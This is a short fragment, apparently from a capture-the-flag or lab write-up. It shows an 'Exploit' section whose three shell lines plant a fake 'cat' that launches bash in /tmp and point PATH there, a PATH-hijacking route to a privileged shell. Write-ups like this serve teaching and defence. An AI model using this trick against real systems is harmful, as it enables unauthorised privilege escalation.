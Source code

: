### Exploit
```shell
    echo '/bin/bash' > /tmp/cat
    chmod 777 /tmp/cat

    export PATH="/tmp"
```
